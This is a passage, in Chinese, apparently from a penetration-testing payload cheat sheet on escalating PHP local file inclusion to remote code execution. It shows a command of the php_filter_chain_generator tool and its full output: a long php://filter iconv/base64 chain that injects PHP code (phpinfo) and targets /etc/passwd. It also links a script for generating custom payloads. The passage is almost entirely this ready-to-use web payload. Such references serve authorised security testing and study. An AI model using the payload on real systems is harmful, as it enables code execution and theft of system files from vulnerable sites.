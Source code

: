 此外，还可以将 `php://filter` 转换为完整的 RCE。

- [synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) - 生成 PHP 过滤器链的命令行工具

  ```powershell
  $ python3 php_filter_chain_generator.py --chain '<?php phpinfo();?>'
  [+] 将生成以下代码：<?php phpinfo();?> （base64 值: PD9waHAgcGhwaW5mbygpOz8+）
  php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.UCS-2.UTF8|convert.iconv.L6.UTF8|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.UCS-2.LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2.LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2.LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2.LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/etc/passwd
  ```

- [LFI2RCE.py](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Files/LFI2RCE.py) 用于生成自定义的有效载荷。
